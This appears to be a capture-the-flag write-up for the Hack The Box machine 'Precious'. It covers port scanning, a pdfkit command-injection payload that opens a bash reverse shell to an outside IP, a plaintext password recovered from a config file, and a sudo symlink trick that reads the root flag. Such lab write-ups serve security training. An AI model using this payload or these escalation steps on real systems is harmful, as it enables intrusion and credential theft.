 # Precious

## Analysis

- nmap scan reveals open ports `80` and `22`
  - ssh version `OpenSSH 8.4p1 Debian 5+deb11u1`
  - webserver running `nginx 1.18.0`
    - running ruby via `Phusion Passenger(R) 6.0.15`
    - redirects to `http://precious.htb/` -> add to host file
    - allows to provide a url which will be converted to a pdf
    - there is a vulnerable ruby package [pdfkit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)
    - this can be used for RCE


## Solution

### User flag

- following input gives a reverse shell 
```
http://%20`bash -c 'bash -i >& /dev/tcp/10.10.16.50/1234 0>&1'
```
- found credentials for henry in `/home/ruby/.bundle/config`: `Q3c1AqGHtoI0aXAYFH`
- allows ssh login to obtain user flag

### Root flag

- user is allowed to run ruby script as root `/opt/update_dependencies.rb`
- this script reads `dependencies.yml` from current directory
- creating a symlink to `/root/root.txt` includes flag into error message:
```bash
ln -s /root/root.txt dependencies.yml
sudo /usr/bin/ruby /opt/update_dependencies.rb
```